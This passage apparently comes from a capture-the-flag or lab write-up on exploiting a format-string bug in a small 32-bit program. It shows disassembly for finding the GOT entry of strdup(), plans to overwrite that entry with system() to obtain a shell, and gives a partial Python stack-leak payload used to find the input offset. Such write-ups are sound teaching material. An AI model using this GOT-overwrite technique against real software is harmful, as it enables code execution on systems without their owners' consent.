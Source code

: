 Looks good! Sweet!
> Note: Reminder on how [system()](https://github.com/lattera/glibc/blob/master/sysdeps/posix/system.c) works.

Next on our list is to find the address of `strdup()` in the GOT to be able to overwrite it!

Let's take a look at the assembly snippet from the `vuln()` function for a second:

       ...
       0x080485c9 <+83>:	sub    esp,0xc
       0x080485cc <+86>:	lea    eax,[ebp-0x20c]
       0x080485d2 <+92>:	push   eax
    => 0x080485d3 <+93>:	call   0x80483f0 <strdup@plt>
       0x080485d8 <+98>:	add    esp,0x10
       0x080485db <+101>:	nop
       ...


    gef➤  disassemble 0x80483f0
    Dump of assembler code for function strdup@plt:
       0x080483f0 <+0>:	jmp    DWORD PTR ds:0x804a014
       0x080483f6 <+6>:	push   0x10
       0x080483fb <+11>:	jmp    0x80483c0
    End of assembler dump.
    gef➤


`0x804a014` is the address we want to overwrite!


#### Exploit

Following now is a quick script I put together to get a shell without disrupting any normal control flow of the program.
The bytes to overwrite `strdup()` to get `system()` where manually calculated by trial and error.
First you want to check where on the stack your buffer arguments reside by doing something like this:


{% highlight python %}

...
exploit = ""

exploit += "AAAABBBBCCCC"

exploit += "%x "*10
...
{% endhighlight %}

Ideally you can quickly find the `41414141 42424242 43434343` in the output besides other addresses.
If you do you can see at which position your fed input is dumped.
For example it could look like this:

	AAAABBBBCCCC200 f7faf5a0 f7ffd53c ffffcc48 f7fd95c5 0 41414141 42424242 43434343 25207825 78252078 20782520 25207825 78252078 20782520

That would mean our input is on the 7th position of the stack.
We can replace `AAAABBBBCCCC` now with something more meaningful like an entry from the GOT we want ot overwrite.
